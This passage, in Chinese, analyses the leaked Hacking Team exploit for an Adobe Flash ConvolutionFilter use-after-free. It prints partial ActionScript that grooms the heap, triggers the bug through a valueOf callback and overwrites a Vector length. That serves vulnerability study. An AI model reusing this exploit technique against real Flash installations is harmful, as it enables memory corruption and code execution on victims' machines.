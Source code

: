 我们来看一下HackingTeam泄露的exploit代码，关键部分如下：

1 创建ConvolutionFilter对象：

```
// try to allocate two sequential pages of memory: [ matrix ][ MyClass2 ]
                for(i=20; i < alen; i+=6){
                    a[i] = new Class2(i);

                    for(j=i+1; j < i+5; j++)
                        a[j] = new ConvolutionFilter(14,15);

                    a[i+5] = new Class2(i+5);
                }

```

2 设置ConvolutionFilter.matrix

```
var m:Array = new Array(bLen);
m[0] = new Clasz;   
m[1] = m[0];

try { filter.matrix = m; } catch (e:Error){}

```

这里有一个关键点，filter.matrix被赋值为m（类型是 Array），而Array m的第一个元素是一个Clasz类，而Clasz类定义了valueOf方法，这个valueOf是漏洞触发的关键点：

```
#c++
public class Clasz 
    {
        …
        public function Clasz() {   }

        prototype.valueOf = function()
        {
…
}

```

3 在Clasz的valueOf函数中，设置ConvolutionFilter.matrixX：

```
prototype.valueOf = function()
        {
            if (filter.matrixX > 14) throw new Error(""); // check for the second valueOf() call

            ref = new Array(5);
            collect.push(ref); // protect from GC // for RnD

            filter.matrixX = 15; // reallocate filter matrix

            // reuse freed memory
            for(var i:int; i < ref.length; i++) {
                ref[i] = new Vector.<uint>;
                ref[i].length = bLen;
            }

            // return value for vector length overwriting
            return 2; // = 0x40000000 as single precision

        }

```